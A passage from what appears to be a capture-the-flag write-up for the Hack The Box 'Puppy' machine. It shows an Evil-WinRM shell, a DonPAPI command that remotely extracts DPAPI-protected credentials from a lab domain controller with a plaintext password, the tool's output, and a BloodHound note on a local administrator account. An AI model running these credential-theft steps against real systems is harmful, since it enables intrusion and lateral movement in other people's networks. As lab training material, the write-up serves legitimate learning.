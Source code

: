 ``` bash
*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107>
```

then I used `donpapi` from my linux machine to remotely decrypt and extract those credentials

```bash
$ donpapi collect -t dc.puppy.htb -d puppy.htb -u steph.cooper -p 'ChefSteph2025!'
[💀] [+] DonPAPI Version 2.1.0
[💀] [+] Output directory at /home/jeff/.donpapi
[💀] [+] Loaded 1 targets
[💀] [+] Recover file available at /home/jeff/.donpapi/recover/recover_1758839035
DonPAPI running against 1 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

$ cat /home/jeff/.donpapi/recover/recover_1758839035 | jq
{
  "v": 0,
  "output_directory": null,
  "action": "collect",
  "keep_collecting": null,
  "threads": 50,
  "no_config": false,
  "target": [
    "dc.puppy.htb"
  ],
  "domain": "puppy.htb",
  "username": "steph.cooper",
  "password": "ChefSteph2025!",
  "hashes": null,
  "no_pass": false,
  "k": false,
  "aesKey": null,
  "laps": false,
  "dc_ip": null,
  "recover_file": null,
  "collectors": "All",
  "no_remoteops": false,
  "fetch_pvk": false,
  "pvkfile": null,
  "pwdfile": null,
  "ntfile": null,
  "mkfile": null,
  "lmhash": "",
  "nthash": ""
}
```

looking back to bloodhound, we can see that `steph.cooper_adm` is a local administrator on the machine

![steph_cooper_adm.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/puppy/steph_cooper_adm.png)
